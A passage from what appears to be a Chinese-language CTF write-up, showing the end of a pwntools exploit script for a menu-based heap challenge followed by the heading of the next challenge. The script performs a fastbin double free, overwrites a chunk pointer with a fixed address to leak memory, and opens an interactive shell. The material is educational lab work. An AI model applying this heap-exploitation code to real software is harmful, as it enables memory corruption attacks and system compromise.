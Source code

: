```
    sh.recvuntil('&gt; Now please tell me what you want to do :')
    sh.sendline('1')
    sh.recvuntil('&gt; ba's length : ')
    sh.sendline(str(name_size))
    sh.recvuntil('&gt; ba : ')
    sh.sendline(name_value)
    sh.recvuntil('&gt; na's length : ')
    sh.sendline(str(desc_size))
    sh.recvuntil('&gt; na : ')
    sh.sendline(desc_value)

def delete(sh,index):
    sh.recvuntil('&gt; Now please tell me what you want to do :')
    sh.sendline('3')
    sh.recvuntil('&gt; Banana ID : ')
    sh.sendline(str(index))

def show(sh,index):
    sh.recvuntil('&gt; Now please tell me what you want to do :')
    sh.sendline('4')
    sh.recvuntil('&gt; Banana ID : ')
    sh.sendline(str(index))

if __name__ == "__main__":
    sh = get_sh()
    creat(sh,0x50,'Chunk_1',0x50,'Chunk_2')
    creat(sh,0x50,'Chunk_3',0x50,'Chunk_4')
    delete(sh,0)
    delete(sh,1)
    delete(sh,0)
    creat(sh,0x50,p64(0x602098),0x50,'Chunk_2')
    creat(sh,0x50,'Chunk_3',0x50,'Chunk_4')
    creat(sh,0x50,'',0x30,'')
    show(sh,4)
    sh.interactive()
    sh.close()
```



## 0x06 SecondDay_Some_thing_interesting

### <a class="reference-link" name="%E9%A2%98%E7%9B%AE%E4%BF%A1%E6%81%AF"></a>题目信息

[![](./img/199540/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-02-23-020335.png)

本题保护全开。

### <a class="reference-link" name="%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90"></a>漏洞分析
